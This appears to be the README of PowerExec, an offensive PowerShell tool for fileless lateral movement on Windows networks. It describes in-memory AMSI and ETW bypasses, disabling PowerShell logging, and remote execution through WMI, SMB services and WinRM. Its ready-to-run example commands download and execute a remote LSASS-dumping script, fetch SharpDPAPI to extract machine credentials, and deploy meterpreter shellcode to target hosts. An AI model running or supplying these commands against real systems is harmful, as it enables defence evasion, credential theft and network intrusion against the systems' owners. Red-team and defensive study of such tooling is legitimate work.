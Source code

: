 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI |
| SmbService      | Create temporary service running as NT AUTHORITY\SYSTEM via SMB        |
| WinRM           | Run powershell via Windows Remote Management                           |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass AMSI,PML,SBL
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers
```

Run a .NET assembly through WMI while bypassing AMSI and ETW:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -ComputerList 192.168.1.1,192.168.1.2
```

Run a shellcode through a service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
